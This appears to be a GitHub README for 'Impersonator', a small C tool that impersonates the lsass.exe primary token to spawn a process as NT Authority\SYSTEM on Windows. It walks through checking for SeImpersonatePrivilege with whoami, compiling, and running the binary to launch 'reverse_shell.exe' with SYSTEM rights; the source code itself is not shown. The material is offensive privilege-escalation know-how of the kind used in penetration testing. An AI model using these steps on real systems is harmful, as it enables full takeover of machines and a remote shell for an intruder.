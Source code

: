 # Impersonator

![Image](https://github.com/plackyhacker/impersonator/blob/main/impersonator.gif)

Simple C code to impersonate the `lsass.exe` primary token and spawn a new process as `NT Authority\SYSTEM` . The `SeImpersonate` privilege is required to impersonate another process token.


**Enumerate**

```
C:\Target\>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
...
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
...
```


**Compile the code**

```
C:\Dev\>compile.bat
```


**Run the binary**

```
C:\Target\>impersonator.exe reverse_shell.exe
```
